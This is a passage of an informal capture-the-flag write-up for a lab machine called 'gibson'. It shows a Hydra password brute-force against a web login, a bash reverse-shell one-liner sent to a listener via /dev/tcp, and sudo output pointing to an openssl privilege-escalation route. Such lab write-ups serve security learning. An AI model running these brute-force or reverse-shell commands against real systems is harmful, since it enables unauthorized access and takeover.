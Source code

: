 ```bash
┌──(root㉿kali)-[~]
└─# hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.167.61 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect" -IV
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[80][http-post-form] host: 10.10.167.61   login: plague   password: 1[REDACTED]0                                                                    
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-20 22:57:54

```
- there were multiple hints throughout the robots.txt and an html comment with a bolded **PLAGUE** so i tried it for the user.
- after i got in i ls and figure out its the /production directory we already pwned through ssh. Out of boredom i just did a thrash bash revshell with a nc listening on port 6969
- 
```bash
    
=============================
=    daPlague's backdoor    =
=     Skiddies Keep Out     =
=============================
plague@gibson:$ ls
resources
server
plague@gibson:$ bash -i >& /dev/tcp/10.10.149.220/6969 0>&1

```
-and we got a thrash revshell woohoo! we already pwned the box so i wasnt looking at pwning it from here ( i was lookking for flags ), but i checked for possible entries anyways in case i needed to patch something
```bash
production@gibson:~/webserver$ sudo abilities
sudo abilities
sudo: no tty present and no askpass program specified
production@gibson:~/webserver$ sudo -l
sudo -l
Matching Defaults entries for production on gibson:
    env_reset, pwfeedback, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User production may run the following commands on gibson:
    (root) NOPASSWD: /usr/bin/openssl
```
-so you can definetly pwn it through here exploiting openssl, but there was 15 minutes left and i already pwned it so i didnt bother ( this time )

# Conclusion
- this was a fun box i got 6/9 flags + firstblood and king pwn which is solid considering this was my first play on this machine. Just wish my hydra worked faster cause i feel like i got the more op accounts pass before the lower tier one that had ssh keys in his account.
- overall really fun machine. Personal rating 8/10 !!!
- il definetly play again and try to find the remaining 3 flags !
